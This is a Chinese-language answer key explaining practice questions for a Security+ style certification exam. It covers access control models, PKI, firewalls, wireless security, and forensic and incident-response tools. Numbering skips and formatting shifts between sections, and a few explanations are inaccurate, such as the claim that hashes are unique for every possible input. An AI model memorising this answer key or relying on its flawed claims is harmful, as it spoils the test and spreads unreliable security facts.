137. A. 密钥托管将加密密钥提供给第三方，以便在满足某些条件时将其交给适当的一方。虽然这意味着密钥脱离了所有权方或责任方的控制，但在许多情况下，必须要有一种可恢复或可访问的方式来获取密钥，这比将密钥交由单一个人或组织保管的要求更重要。其余选项是编造出来的，但你可能会遇到“密钥恢复”这个术语，它是指执法部门或其他方在需要时通过一种流程恢复密钥，该流程向他们提供访问密钥或解密密钥，该密钥可能与原始加密用户使用的密钥不同。

138. D. 启动证明要求系统跟踪并度量启动过程，然后向系统证明该过程是安全的。安全启动是一个相关概念，它只允许使用先前哈希值运行受信任的软件，以确保过程安全。`BOOTP` 和 `BIOS` 不参与此过程；相反，统一可扩展固件接口（`UEFI`）固件同时支持安全启动和启动证明。

139. A. 正确答案是，`OpenID` 是一种通常由第三方提供的身份验证服务，可用于登录任何接受 `OpenID` 的网站。`Kerberos` 是一种在域内使用的网络身份验证协议。新技术局域网管理器（`NTLM`）是一种较旧的 Windows 身份验证协议。`Shibboleth` 是一种单点登录系统，但它适用于联合系统。

140. C. 对于不需要远程注册表访问的系统禁用该访问，可以防止远程注册表被修改和读取。只要可能，这是一项推荐的最佳实践，但某些系统可能出于管理或其他原因需要远程注册表访问。Windows 注册表不会独立打补丁；注册表必须可读可写，Windows 系统才能正常工作；也没有加密用户密钥的模式。

141. D. 最大化覆盖重叠会导致接入点之间产生更多争用。相反，安装应在重要区域不留盲区的前提下尽量减少重叠。进行站点勘察、控制功率水平并调整功率以尽量减少争用，以及根据建筑物的建筑材料进行设计，都是设计无线接入点（`WAP`）物理布局和放置位置的重要环节。幸运的是，现代企业无线网络具有先进的智能特性，可以帮助自动完成其中许多工作。

142. B. 禁用账户是满足 Mark 需求的最佳选择。禁用账户会使账户处于不同于活动账户或已更改密码账户的状态；如果 Gabby 打电话来要求更改密码，支持人员应注意这一点。这意味着心怀不满的员工或攻击者成功访问该账户的风险更小。同时，禁用比删除账户的破坏性更小，恢复速度更快，并保留她的文件和其他资料。大多数组织会为账户在未经审查或未转入其他账户状态的情况下可保持禁用状态的时间设定限制，以确保禁用账户不会随时间累积。

143. A. 基于属性的访问控制（`ABAC`）在登录用户名和密码之外，还会查看一组属性来决定是否授予访问权限。检查的属性之一是人员的位置。由于该公司用户经常出差，他们经常会在新地点，这可能会导致 `ABAC` 拒绝其登录。错误的密码当然会阻止登录，但这并非 `ABAC` 特有。`ABAC` 并不会阻止远程访问，并且防火墙可以配置为允许或禁止任何你希望的流量。

144. B. 单点登录（`SSO`）专门设计用于解决此风险，并且会是最有帮助的。用户只需记住一次登录；因此，他们无需写下密码。`OAuth`（开放授权）是互联网上基于令牌的身份验证和授权的开放标准。它并不能消除使用或需要多个密码。多因素身份验证有助于防止因密码丢失而带来的风险，但本身并不能消除对多个密码的需求。安全断言标记语言（`SAML`）和轻量级目录访问协议（`LDAP`）都不会阻止用户需要记住多个密码。

145. D. 基于规则的访问控制将一组规则应用于访问请求。根据规则的应用，用户可能会被授予访问其未明确被授予权限的特定资源的权限。`MAC`、`DAC` 和基于角色的访问控制不会授予用户访问权限，除非该用户已被明确授予该访问权限。

146. B. 多个云虚拟数据中心之间的分段、防火墙服务的运营成本以及云服务提供商提供的流量可见性，都是 Ed 需要考虑的设计要素。然而，他无需担心硬件更新的访问问题。相反，他可能会使用虚拟云设备或由云基础设施服务提供商提供的内置防火墙功能。

147. B. 令牌是通常包含用于身份验证的加密数据的物理设备。它们可以存储用于身份验证的数字证书。`OAuth`（开放授权）是互联网上基于令牌的身份验证和授权的开放标准。用户仍必须记住密码。`OpenID` 是一种第三方身份验证服务，与 `OAuth` 一样，用户仍必须记住密码。基于角色的访问控制和基于规则的访问控制（两者都使用缩写 `RBAC`）是访问控制模型。

148. A. 此类内部服务属于内联网，即仅公司内部人员和系统可访问的网络或网站。外联网是允许合作伙伴或客户访问但不向公众开放的私有网络。非军事区（`DMZ`）是暴露于互联网或其他不可信网络的网络段。`TTL` 是一个网络术语，意为生存时间，它决定网络数据包在无法再发送到下一个跳之前可以经过多少跳。

149. B. 此问题描述的是无状态防火墙，它会查看每个数据包以决定允许哪些数据包通过。有状态防火墙会关注会话，并在验证初始交换后允许设备之间会话中的数据包通过。下一代防火墙（`NGFW`）内置了多种安全服务。应用层防火墙能够理解流经其的应用，并提供更深入的数据包分析能力以阻止不需要的应用层流量。

150. C. 硬件安全模块除了在企业环境中经常作为设备部署外，还可作为智能卡、`microSD` 卡和 `USB` 闪存驱动器提供。Nancy 可以购买经过认证和测试的基于 `MicroSD` 卡的 `HSM`，以安全的方式保护她的密钥。基于应用的公钥基础设施（`PKI`）在大多数移动设备上不会提供相同级别的安全性，除非使用专门设计的硬件，而本问题中并未提及。`OPAL` 是一种基于硬件的加密标准，不提供密钥管理，而离线证书颁发机构（`CA`）在这种情况下也不会有帮助。

151. D. Windows 和 Linux 文件系统均基于自主访问控制方案运行，其中文件和目录所有者可以确定谁可以访问、更改或以其他方式处理其控制下的文件。基于角色的访问控制系统根据分配给用户的角色确定权限。基于规则的访问控制系统使用一系列规则来确定可以执行哪些操作，而强制访问控制系统在操作系统级别强制执行控制。

152. A. 将每个教职员工账户限制为仅在该教职员工通常在校园时可用，将防止有人在非工作时间使用该账户登录，即使他们拥有密码。使用审计可能会检测到账户的滥用，但不会阻止它。更长的密码是有效的保护，但较长的密码仍可能被窃取。凭证管理始终是一个好主意，但它不会解决这个特定问题。

153. D. 尽管下一代防火墙提供许多防御能力，但 SQL 注入是一种攻击而不是防御。除了地理定位、入侵检测系统（`IDS`）和入侵防御系统（`IPS`）以及沙箱功能外，许多下一代防火墙还包括 Web 应用防火墙、负载均衡、IP 信誉和 URL 过滤，以及反恶意软件和防病毒功能。

154. C. 在交换机上启用风暴控制将限制广播数据包可使用的总带宽，防止广播风暴导致网络瘫痪。阻止地址解析协议（`ARP`）将阻止系统相互查找，而阻止所有广播数据包也会阻止许多重要的网络功能。

155. B. 在设计云环境时，非军事区（`DMZ`）仍然是一个有用的概念，尽管技术实现可能有所不同，因为云提供商可能具有安全 Web 服务、负载均衡功能或其他使 `DMZ` 看起来不同的功能。代理服务器对于控制、过滤和中继流量很有用，但它们并不能提供 Isaac 所寻找的完整分段。`VPC` 是一个虚拟数据中心，通常会包含他的基础设施，但并不能专门解决这些需求。

156. A. 权限审计将找出每个用户拥有哪些权限，并将其与他们的岗位要求进行比较。权限审计应定期进行。工作轮换虽然对其他安全原因有益，但实际上会加剧此问题。禁止任何人永远更改工作角色是不切实际的，而职责分离对这个问题没有任何影响。

157. B. Susan 最好的选择是部署全盘加密（`FDE`），这将确保整个驱动器被加密，而不是仅特定文件夹或文件。对磁驱动器进行消磁会将其擦除，而不是保护数据。

158. C. 密码复杂度要求密码包含大写字母、小写字母、数字和特殊字符的混合。这是纠正问题中描述的问题的最佳方法。更长的密码是良好的安全措施，但不会纠正此处提出的问题。更改密码不会使这些密码更强，而单点登录（`SSO`）对密码强度没有任何影响。

159. D. `WPA3` 的个人模式用同时身份验证 of equals 取代了 `WPA2` 中找到的预共享密钥模式。这使得弱密码短语或密码攻击更难进行，并在设备进行初始密钥交换时提供更大的安全性。`WEP`、`WPA` 和 `WPA2` 未实现 SAE。

160. C. Megan 创建了一个访客账户。访客账户通常具有非常有限的权限，并且可以设置有限的登录时间、到期日期或其他控制措施以帮助提高安全性。用户账户是最常见的账户类型，发给个人以允许他们登录并使用系统和服务。共享账户由多人使用，使得难以确定谁使用了该账户。服务账户通常与在系统上运行的需要访问文件或其他资源权限的程序或服务相关联。

161. B. `API` 密钥允许单个客户对 `API` 服务进行身份验证，这意味着如果出现问题，Henry 可以禁用有问题的 `API` 密钥而不是所有用户。使用 Amazon `API Gateway` 等服务启用日志记录可实现可扩展性、日志记录和监控，以及 Web 应用防火墙等工具。`API` 代理和以 `API` 为中心的入侵防御系统（`IPS`）是为此问题编造的。

162. C. `UTM`，即统一威胁管理设备，通常用作防火墙、入侵检测系统（`IDS`）/入侵防御系统（`IPS`）、防病毒、Web 代理、Web 应用和深度数据包检测、安全电子邮件网关、数据防泄漏（`DLP`）、安全信息和事件管理（`SIEM`），甚至虚拟专用网络（`VPN`）设备。然而，它们不是移动设备管理（`MDM`）或通用终端管理设备，因为其主要关注点是网络安全，而不是系统或设备管理。

163. B. 强制访问控制（`MAC`）基于与所访问信息相关的已记录安全级别。基于角色的访问控制（`RBAC`）基于用户所处的角色。自主访问控制（`DAC`）允许数据所有者设置访问控制。`BAC` 不是一种访问控制模型。

164. A. 此图像显示了一个正向代理，可用于对发送到 Web 服务器和其他服务的用户请求应用策略。反向代理充当用户和应用服务器之间的网关，允许内容缓存和流量操控。它们通常被内容分发网络用于帮助流量管理。

165. B. 这种潜在的安全问题通常被记录为不可能行程时间/风险登录问题。Gurvinder 不会期望用户在一小时内往返于两个地点——事实上，这是不可能做到的。这意味着他需要联系用户，查明用户是否可能做了诸如使用 `VPN` 之类的事情，或者他们的账户是否可能已被盗用。这有可能是 Gurvinder 公司使用的 `geo-IP` 系统的问题，但在做出其他判断之前，他需要将其视为安全风险，而且在大多数情况下账户被盗用的可能性更大。配置错误的 IP 地址不会导致此问题。

166. A. 自主访问控制（`DAC`）允许数据所有者分配权限。基于角色的访问控制（`RBAC`）根据用户所处的角色来分配访问权限。强制访问控制（`MAC`）更为严格，并在操作系统层面强制执行控制。基于属性的访问控制（`ABAC`）除了用户名和密码之外，还会考虑各种属性，例如位置、时间和计算机。

167. A. 操作系统加固是通过修补、更新和配置操作系统以确保其安全的过程。配置管理是对系统配置进行持续管理的过程，而不是这一初始安全步骤。安全提升（security uplift）和端点锁定（endpoint lockdown）都是为本问题虚构的选项。

168. D. 安全轻量级目录访问协议（`LDAPS`）默认使用 `636` 端口。`DNS` 使用 `53` 端口，`LDAP` 使用 `389` 端口，安全 `HTTP` 使用 `443` 端口。


**169.** **C.** 针对Chris所确定的需求，最佳答案是硬件安全模块（HSM）。HSM可以作为加密密钥管理器，包括创建、存储和安全地处理加密密钥和证书。它们还可以充当加密加速器，帮助分担诸如传输层安全（TLS）加密之类的加密功能。TPM（可信平台模块）是一种用于为系统存储密钥的设备，但不会分担密码处理任务，并且它用于特定系统上的密钥，而非更广泛的用途。CPU和GPU可能具有加密加速功能，但它们不能安全地存储或管理证书和其他加密工件。

**170.** **D.** 基于主机的入侵防御系统（HIPS）可以监控网络流量，利用签名来识别攻击、可疑行为和已知的恶意模式。防火墙根据规则阻止流量；反恶意软件工具专门用于阻止恶意软件，而不是攻击和可疑的网络行为；基于主机的入侵检测系统（HIDS）只能检测这些行为，而不能阻止它们。

**171.** **B.** 基于角色的访问控制（RBAC）根据用户在组织内的职位来授予权限。强制访问控制（MAC）使用安全分类来授予权限。自主访问控制（DAC）允许数据所有者设置权限。基于属性的访问控制（ABAC）除了用户名和密码之外，还会考虑各种属性，例如位置、时间和计算机。

**172.** **B.** 度量启动（Measured boot）提供了一种启动证明形式，记录启动过程中加载的每个组件的信息。然后可以将此信息报告给服务器进行验证。可信启动（Trusted boot）根据已知签名验证每个组件。度量启动不关心启动所需的时间，也不会更新系统的统一可扩展固件接口（UEFI）。

**180.** **B.** 在防御通过网络传播的威胁时，基于主机的防火墙是大多数设计中的第一步。它们可以阻止不需要的流量进出主机，从而让基于主机的入侵防御系统（HIPS）或其他工具需要分析的流量更少。全盘加密（FDE）无法阻止通过网络传播的威胁，而防病毒软件专注于防御恶意软件，而不是诸如拒绝服务或利用易受攻击的服务等网络威胁。

**181.** **A.** 安全组是实例的虚拟防火墙，允许将规则应用于实例之间的流量。动态资源分配是一种允许按需分配资源的概念，包括动态扩展和缩减基础设施及系统。虚拟私有云（VPC）端点是一种在没有互联网网关的情况下连接到云提供商内部服务的方式。最后，实例感知是一个概念，意味着工具能够识别实例之间的差异，而不是将扩展组中的每个实例视为相同。在事件响应流程和对扩展组进行安全监控时，这一点非常重要，因为如果没有实例感知，所有资源可能看起来完全相同。

**182.** **D.** 虽然内置的更新工具可以处理操作系统，但系统上安装的其他软件需要单独打补丁。第三方软件和固件，包括Derek组织内部署的系统的统一可扩展固件接口（UEFI）或BIOS，都需要定期更新。许多组织采用补丁管理平台或具有修补能力的系统管理平台，以确保修补的范围不仅仅是操作系统补丁。

**183.** **A.** IDS（入侵检测系统）只能根据其拥有的检测规则和签名来检测不需要的恶意流量。它们无法阻止或修改流量。IPS（入侵防御系统）被内联部署在网络流量路径中，可以对该流量采取行动。因此，当不允许阻断网络流量，或使用分流器（tap）或其他网络设备克隆流量进行检查时，通常会使用IDS。

**184.** **C.** 尽管内部威胁是一个令人担忧的问题，但对于容器而言，它们与任何其他系统并无不同。确保容器主机安全、保护管理堆栈安全以及确保进出容器的网络流量安全，都是常见的容器安全问题。

**185.** **C.** 网络地址转换（NAT）网关允许内部IP地址对外隐藏，防止直接连接到其后面的系统。这有效地对入站流量进行了防火墙隔离，除非网关被设置为在使用特定IP、端口和协议时将流量传递到内部主机。然而，它们并非传统意义上的防火墙，不会专门按端口和协议有状态地阻止流量，也不会检测恶意流量。最后，NAT网关不用于将非IP流量发送到IP网络。

**186.** **C.** 条件访问会评估特定条件，以决定是否允许账户访问资源。根据当前存在的条件和有关登录的可用信息，系统可以选择允许访问、阻止访问或应用额外的控制措施。

**187.** **B.** 如果系统维护密码历史记录，这将防止任何用户重用旧密码。密码复杂度和长度是常见的安全设置，但不能防止所描述的行为。多因素身份验证有助于防止暴力破解攻击，并降低密码被盗的潜在影响，但对这种情况没有帮助。

**188.** **D.** 桥接协议数据单元（BPDU）保护功能通过阻止未知设备参与生成树来保护网络基础设施。这可以防止用户添加的新交换机声称自己是根桥（在本例中为交换机C），而这种情况通常会导致拓扑变化，并使流量被发送到交换机X，这是一个不希望出现的结果。802.11n是一种无线协议，其余选项是为本问题虚构的。

**189.** **A.** `net user`命令可以实现这种控制。虽然你可能不熟悉众多的`net user`命令，但你可以排除不现实的命令或存在缺陷的命令。例如，在这里你很可能能猜到`working-hours`不是一个已定义的术语。同样，`login`也不是Windows命令，但`net`命令通常用于控制Windows系统。

**190.** **A.** 审计和审查用户实际如何使用其账户权限是确定是否存在任何不当使用的最佳方式。一个经典的例子是银行贷款员。由于其工作性质，他们可以访问贷款文件。但他们不应该访问并非自己经办的贷款的贷款文件。在这种情况下，问题不在于权限，因为用户需要权限才能访问数据。问题在于用户如何使用他们的权限。使用审计和权限审计都是账户维护的一部分，但审计和审查是更好的答案。最后，这不是一个策略问题。

**191.** **B.** 像访客Wi-Fi接入这样的场景不会为登录用户提供对企业资源的任何访问权限。登录的人只能访问互联网。这对企业网络构成的安全风险非常有限，因此通常使用公共或共享账户。技术支持人员通常对企业网络资源拥有重要的访问权限。虽然这是一种相对低权限的访问场景，但仍然需要知道具体是哪个学生在登录以及访问了哪些资源。任何级别的企业资源访问都应有其自己的单独登录账户。

**192.** **B.** 证书链列出证书和证书颁发机构（CA）证书，使证书接收者能够验证这些证书是否可以信任。无效或断开的链意味着检查证书链的用户或系统不应信任该系统及其证书。

**193.** **D.** 802.1X是IEEE基于端口的网络访问控制标准。该协议常用于对设备进行身份验证。质询握手认证协议（CHAP）是一种认证协议，但不是设备认证的最佳选择。Kerberos是一种认证协议，但不是设备认证的最佳选择。802.11i是Wi-Fi安全标准，并在WPA2和WPA3中完全实现。它不是设备认证程序。

**194.** **A.** WPA2使用基于AES的CCMP（计数器模式与CBC-MAC协议）来封装流量，提供机密性。WPA3在WPA3-个人模式中也使用CCMP作为最低可接受的加密方式。WEP、红外和蓝牙不使用CCMP。

**204.** **B.** 可信平台模块（TPM）被用作现代个人电脑硬件信任根的基石。TPM可以提供加密密钥、PUF（物理不可克隆函数）或设备唯一序列号。CPU和硬盘不用于此功能，而HSM（硬件安全模块）用于公钥基础设施（PKI）和加密目的，但不用作个人电脑的硬件信任根。

**205.** **C.** 下一代防火墙通常内置URL过滤、黑名单等高级功能，以及超越简单包过滤或有状态包检测的其他应用层能力。

**206.** **D.** 移动应用管理（MAM）工具专为此目的设计，允许将应用分发到移动设备、从移动设备移除并在移动设备上进行管理。MOM是Microsoft Operations Manager，这是一种系统管理工具，微软在当前使用中已用Operations Manager取代了它。MLM通常指多层次营销或金字塔骗局——而不是安全术语。MIM也不是安全术语。

**207.** **A.** 云应用与本地应用有许多相同的担忧，但由本地访问导致运行应用的系统被入侵的场景要小得多。云应用供应商更可能在安全的数据中心运营，除授权人员外，对服务器的访问受限或完全不可访问，从而大大降低了此类安全问题的可能性。

**208.** **D.** 证书颁发机构（CA）最关键的部分是其根证书，确保根证书永不暴露对该CA的持续运营至关重要。因此，根CA通常以离线CA的形式维护，使攻击者更难入侵系统并获取根证书。实际上，被入侵的CA可能会失去全球组织的信任，无法继续开展业务。

**209.** **C.** 分流隧道VPN仅将通过VPN发往远程网络的流量发送，所有其他流量分流出去，使用VPN系统或用户的主网络连接。这减少了通过VPN发送的总体流量，但也意味着这些流量无法通过VPN进行监控和保护。Half-pipe不是安全术语，而水平分割（split horizon）最常用于描述内部和外部DNS视图可能不同的DNS。

**210.** **A.** 环路保护正是查找这类问题。环路保护发送包含PDU（协议数据单元）的数据包。这些数据包会被其他网络设备检测到，并允许网络设备关闭它们接收到这些数据包的端口。其余选项是为本题杜撰的。

**211.** **C.** 蜂窝运营商和手机制造商都使用OTA（空中下载）更新来提供固件更新和更新的电话配置数据。移动设备管理（MDM）工具可用于监控当前固件版本和电话设置，使Charles能够确定其员工使用的手机是否已更新以确保安全。网络访问控制（NAC）代理可能会捕获其中部分数据，但仅限于联网手机，这不包括场外手机、关闭Wi-Fi的手机或远程设备。OTA并非专门用于更新加密密钥的方式，尽管固件或设置可能包含这些密钥。OTA不是由手机本身发送的。

**212.** **C.** 开源防火墙通常不具备商业防火墙同等级的厂商支持和维护。这意味着如果出现问题，你没有厂商可以求助，你将依赖支持社区来提供补丁和更新。开源防火墙通常更便宜，其开源特性意味着任何人都可以验证代码，只要愿意检查，而且下载即可获得，速度很快。

**213.** **C.** WPA3个人版用SAE（对等实体同时认证）取代了PSK（预共享密钥）。SAE通过要求攻击者在每次认证尝试之前与网络进行交互，有助于防止针对密钥的暴力破解攻击。这减慢了暴力破解攻击的速度。WPA3还包含192位加密模式。它不会用128位加密替换64位加密、增加每信道安全性或添加分布式拒绝服务（DDoS）监控和防护。

**214.** **B.** Security Enhanced Linux（SELinux）为基于Linux的系统提供强制访问控制，而SEAndroid是SELinux在Android上的实现。这意味着Isaac可以使用SEAndroid来实现他的目标。Android确实使用注册表，但没有MAC模式。MACDroid是为本题编造的，单用户模式也不会使Android成为基于MAC的系统。

**215.** **B.** 所描述的系统是特权访问管理（PAM）系统。PAM系统用于安全管理并控制特权账户。MAC是一种在操作系统级别强制访问的访问控制方案。FDE是全盘加密，TLS是传输层安全性。

**216.** **A.** 使用允许控制设备的移动设备管理（MDM）工具，可以让Amina锁定摄像头，防止员工使用Android平板电脑拍照。她仍然需要确保员工不会将自己的带摄像头设备带入设施。DLP是数据丢失防护，OPAL是硬盘加密标准，MMC有多种含义，包括多媒体卡和Windows系统的Microsoft Management Console管理单元，这些都不能提供她所需的那种控制。

**217.** **C.** 统一端点管理（UEM）工具可以管理台式机、笔记本电脑、移动设备、打印机和其他设备。UEM工具通常使用部署到移动设备上的应用来配置和管理它们，Olivia在此列表中的最佳选择是UEM工具。CASB是云访问安全代理，不用于管理移动设备；其他选项需要大量手动工作，且不太可能成功——或者用户只会在方便时更改设置。

**218.** **C.** 下一代（NG）安全Web网关（SWG）在云访问安全代理和下一代防火墙的功能基础上增加了额外功能。虽然功能可能有所不同，但可能包括Web过滤、TLS解密以支持流量分析和高级威胁防护、云访问安全代理（CASB）功能、数据丢失防护（DLP）和其他高级能力。这类解决方案相对较新，市场变化迅速。

**219.** **C.** 访问策略是根据有关访问请求的信息和属性构建的。如果满足策略要求，则可以执行允许或拒绝访问、要求额外身份验证步骤等操作。地理位置和基于时间的登录侧重于单一信息组件，账户审计用于审查账户的权限，而不是执行此类验证或基于策略的控制。

**220.** **B.** 文件权限的数字表示通常在使用`chmod`时替代`rwx`表示法。数字7设置完全权限，第一个数字设置用户权限，这意味着这里用户将被授予对该文件的完全访问权限。

**221.** **B.** 证书固定将已知证书与主机关联，然后将该已知证书与所呈现的证书进行比较。这有助于防止中间人攻击，但如果证书已更新而固定的证书没有更新，则可能会失败。CRL（证书吊销列表）会显示证书是否已被吊销，但不会显示证书是否已更改。Patrick无法访问远程服务器的私钥，除非他恰好是管理员。

**222.** **C.** 隐私增强邮件（PEM）是证书颁发机构签发的最常见格式。DER（可区分编码规则）格式是ASCII文本PEM格式的二进制形式。PKCS#7或P7B格式是Base64 ASCII，而PKCS#12（即PFX）格式是用于将服务器证书、中间证书和私钥存储在单个文件中的二进制格式。

**223.** **C.** Michelle唯一的选择是，在每一台信任该证书的机器上，将其从受信任证书列表中移除。这可能非常耗时且容易出错，这也是许多组织在生产环境中避免使用自签名证书的原因之一。

**224.** **D.** 将与域名关联的IP地址更改为任意值可能会导致路由或其他问题。这意味着更改IP地址将不是验证域名的一种可选方法。其余选项是合法且正常的证书验证方式。

**225.** **A.** SNMPv3增加了对用户和组进行身份验证、然后加密消息的能力，从而提供消息的完整性和保密性。它没有内置SQL注入防护，但它也不是通常需要考虑SQL注入问题的协议。

**226.** **A.** 此图显示的是反向代理。反向代理接受来自外部世界的连接，并将它们发送到内部服务器。正向代理接受内部连接并将它们发送到外部服务器。轮询和下一代代理并不是代理的类型，尽管轮询是一种负载均衡形式。

### 第4章：运维与事件响应

**1.** **A.** Mila应该选择哈希，因为哈希被设计为对于每个可能的输入都是唯一的。这意味着多个文件可能具有相同的校验和值，而哈希算法对于它所运行的每个文件都是唯一的。

**2.** **A.** 允许列表是已批准软件的列表。只有位于允许列表上的软件才能安装。拒绝列表会阻止特定的应用程序，但它们无法涵盖所有可能的恶意应用程序。访问控制列表（ACLs）决定谁可以访问资源。主机入侵检测系统（HIDS）并不会阻止软件被安装。

**3.** **C.** 关联仪表板用于聚合事件并寻找连接。在某些情况下，这会使用高级分析算法完成，包括人工智能（AI）和机器学习（ML）。网络入侵检测系统（NIDS）会有帮助，但本身并不一定会关联事件。公钥基础设施（PKI）处理证书，而不是安全事件的关联和可见性。趋势仪表板会显示事物进展如何以及统计信息和信息移动的方向。

**4.** **D.** 使用`tcpdump`并带上如`-i`设置接口、`tcp`设置协议以及`port`设置端口的标志，将捕获Emily需要捕获的确切流量。端口443是默认的HTTPS端口。`tcpdump`没有`-proto`标志。

**5.** **A.** 桌面演练用于讨论一个流程。与侧重于逐步审查事件的演练不同，Mila将更侧重于她的团队如何响应以及从这些答案中学习。桌面演练可能涉及对情况进行推演。模拟实际上会模拟事件或事故，无论规模大小。演习未被定义为Security+考试大纲的一部分。

**6.** **A.** 由于备份变化速度慢得多，事实上可能有意在长时间内保持不变，备份被认为是挥发性最低的存储类型。在此列表中，CPU缓存变化最频繁，其次是RAM，然后是本地磁盘内容。

**7.** **C.** 事件响应人员知道扫描结果可以显示易受攻击的系统和服务，提供有关攻击者可能如何获得系统访问权限的线索。扫描不会显示攻击者使用的程序，但可能会显示他们启用或更改的服务。扫描会显示攻击前安装的软件版本，但该信息只有在攻击者升级或更改了软件或软件存在漏洞时才有用，这使得该答案不够准确和有用。最后，扫描可能会显示网络安全设备的位置，但该信息应可在不通过扫描推断的情况下提供给事件响应团队。

**8.** **C.** 在问题根除完成后，可以开始恢复。恢复可能包括服务恢复和恢复正常运行。

**9.** **C.** `-p`标志与`ADD`命令结合使用时会添加一条持久路由。持久路由会在重启之间保留在路由表中。默认情况下，它们在每次启动时都会被清除。攻击者可能会选择使用此方法来帮助进行在线（中间人）攻击。

**10.** **D.** 在提供的选项中，只有`theHarvester`是开源情报工具。`Curl`是用于传输数据的工具，`hping`是经常用于构建自定义数据包并执行数据包分析器功能的工具，而`netcat`是一个允许您读取和写入网络连接的实用程序，使其成为渗透测试人员和需要使用小型功能强大的实用程序传输数据的攻击者广泛使用的工具。

**11.** **C.** MITRE ATT&CK框架侧重于技术和战术，而不像Cyber Kill Chain那样侧重于特定的操作顺序。它涵盖的技术和对手范围比Diamond Model更广，并在许多现有工具中得到广泛实施。CVSS标准是漏洞评分系统，不是分析恶意软件和攻击的有用框架。

**30.** **D.** CentOS和Red Hat都将身份验证日志信息存储在`/var/log/secure`中，而不是Debian和Ubuntu系统使用的`/var/log/auth.log`。了解主要发行版之间的差异可以帮助加快取证和事件调查，而一致性是组织在可能的情况下经常为其基础设施选择单一Linux发行版的原因之一。

**31.** **B.** 网页标题以及像`meta`标签这样的头部都是页面元数据的示例，经常用于收集有关网页和网站的信息。头部用于页面的设计，通常描述页面顶部用于站点导航的栏。摘要和隐藏数据不是用于描述网页组件的技术术语。


- 32. C. Cuckoo，或 Cuckoo Sandbox，是一个恶意软件分析沙箱，可安全运行恶意软件然后分析并报告其行为。`strings` 是一个从二进制数据中检索字符串的命令行工具。`scanless` 被描述为端口抓取工具，它通过使用网站和服务为您运行扫描来获取端口信息，而无需运行端口扫描。`Sn1per` 是一个渗透测试框架。

- 33. C. 尽管 Autopsy、`strings` 和 `grep` 都可用于从文件中检索信息，但 `exiftool` 是列出的唯一专为文件元数据检索而设计的工具。

- 34. B. FTK Imager 是一个免费工具，可以对系统和内存进行镜像，使 Isaac 能够捕获他想要的信息。虽然 `dd` 对于捕获磁盘很有用，但通常使用其他工具进行内存转储，并且虽然 `dd` 可在 Windows 系统上使用，但 FTK Imager 更可能是选择。Autopsy 是一个取证分析工具，不提供自己的镜像工具。WinDump 是 `tcpdump` 的 Windows 版本，是一种协议分析器。

- 35. B. 当在调查过程中获取工件时，应将其记录并作为与调查相关的证据进行文档化。工件可能包括写有密码的纸张、与漏洞利用或攻击相关的工具或技术、智能卡或调查的任何其他元素。

- 36. A. 域的 MX 记录列出了其邮件服务器。Gary 可以使用 `nslookup` 查询域名系统（DNS）以查找 MX 服务器，使用命令 `nslookup -query=mx example.com` 来查找 example.com 的邮件服务器。`ping` 不支持 MX 服务器查找，而 `smtp` 和 `email` 都不是命令行工具。

- 37. B. Wireshark 可用于捕获和分析网络上的实时会话发起协议（SIP）流量。分析人员应注意 SIP 流量可能在他们的网络上被加密，并且可能需要采取额外步骤才能完全查看 SIP 数据包的内容。日志文件可以提供有关 SIP 会话和事件的信息，并在事后分析时很有用，但它们不会提供有关实时 SIP 流量的相同细节。Nessus 是一个漏洞扫描器，而 SIPper 是为这个问题编造的。

- 38. A. 尽管列出的所有工具都可以执行端口扫描并识别开放端口，但 `netcat` 是唯一不集成自动服务识别的工具。

- 39. D. 取证报告应包含适当的技术细节。对系统的分析不包括从其获取系统的个人的照片。

- **47.** A. 模拟是你可以在没有真实事件的情况下最接近真实世界事件的方式。桌面演练让人员讨论场景，而演练则通过检查清单和程序。攻防演练不是常见的演练类型。

- **48.** C. 交换机上的内容可寻址内存（CAM）表包含它们所通信的所有设备的列表，并将为 Erin 提供识别网络上设备的最佳机会。Wireshark 和 `netstat` 仅能看到她所操作的系统通信过的设备或在她所在网络段上广播的设备。域名系统（DNS）仅列出具有 DNS 条目的系统。在大多数组织中，只有相对较少的系统会在 DNS 中有条目。

- **49.** C. 传感器以代理、硬件或虚拟机的形式部署，用于收集信息并将其回传到安全信息和事件管理（SIEM）设备。警报级别、趋势分析功能和灵敏度阈值都用于分析数据和报告数据，而不是收集数据。

- **50.** C. 隔离过程或设置会保留恶意或危险的文件和程序而不允许它们运行。这使防御者能够检索它们以进行进一步分析，并在确定它们不具恶意或可以从所需文件中删除恶意组件时将其恢复使用。清除、深度冻结和保留不是用于描述此行为或设置的术语。

- **51.** C. Chuck 应建议使用移动设备管理（MDM）系统，以确保组织设备在未来可以得到管理和保护。数据丢失防护（DLP）不会阻止丢失的手机成为数据泄露的潜在风险，隔离手机对于实际使用的设备来说不是现实场景，遏制也不现实，因为一旦手机丢失，就不再在组织控制之下。

- **52.** A. 内容过滤器专门设计用于允许组织选择应被阻止的特定网站和内容类别。Gabby 可以审查内容类别并配置过滤器以防止学生浏览到不需要的网站。数据丢失防护（DLP）解决方案旨在防止数据丢失，防火墙可以阻止 IP 地址或主机名，但需要额外功能来过滤内容，而入侵检测系统（IDS）可以检测不需要的流量但无法阻止它。

- **53.** B. 磁盘驱动器上存储的信息在易失性顺序中是最不挥发性的项目之一，但备份的挥发性更低。这意味着 Frank 应在镜像磁盘驱动器后捕获备份，并且如果需要，他应首先捕获 CPU 缓存和寄存器以及系统 RAM。

- **54.** C. `-R` 标志将权限递归应用于命名目录中的所有文件。这里，权限为 7，将所有者设置为读、写和执行，而 55 将组然后其他用户权限设置为只读。755 是 Linux 系统上非常常用的权限。

- **55.** B. Charles 在处理取证工件以提供不可否认性时可以采取的最重要行动是对他在证据记录中创建的工件和信息进行数字签名。加密输出将确保其保密性，但本身不会提供不可否认性。图像的 MD5 校验和通常会被收集，但必须随后进行签名，以便验证它们未被修改。

- **56. D.** `memdump` 工具是一个命令行内存转储实用程序，可以转储物理内存。令人有些困惑的是，`memdump` 也是非常有用的 Volatility 框架中的一个标志，其中也可以用来转储内存。其余选项是编造的，不是 Linux 工具，尽管你可以在 Android 设备上创建 ramdump。

- **57. B.** Windows 交换文件是 `pagefile.sys`，默认保存在 `C:\` 驱动器的根目录下。

- **58. A.** 从运行中的 hypervisor 捕获虚拟机的最佳方法通常是使用内置工具获取系统的快照。成像工具通常无法捕获机器状态，而 `dd` 并非设计用于捕获 VM。移除服务器的驱动器可能具有挑战性，因为存在 RAID 和其他特定的服务器配置项，而且这样做可能会影响系统上所有其他正在运行的 VM 和服务。

- **59. C.** 完善记录的保管链可以帮助建立数据的来源证明，证明其来源、谁处理过以及如何获得。审计权、时间线和图像保存并不能建立来源证明，尽管保存是保管链流程的一部分。

